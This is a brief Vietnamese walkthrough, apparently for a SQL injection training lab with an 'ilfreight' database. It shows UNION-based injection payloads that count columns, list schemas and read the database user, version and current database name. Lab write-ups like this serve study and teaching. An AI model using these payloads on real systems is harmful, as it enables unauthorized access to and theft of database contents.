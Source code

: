 Tiến hành inject:

```sql
whathefuck' UNION select 1,user(),@@version,4-- -
```

![](images/4.png)
# Database Enumeration

#### Questions
+ 1  What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

Đầu tiên chúng ta sẽ xem bảng này có mấy cột:

```sql
' order by 5-- -
```

Như vậy bảng này có khoảng 4 cột. Chúng ta sẽ check danh sách database:

```sql
whatthefuckk' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![](images/5.png)

Kiểm tra tiếp xem chúng ta đang ở db nào?

```sql
whatthefuckk' UNION select 1,database(),2,3-- -
```

![](images/6.png)
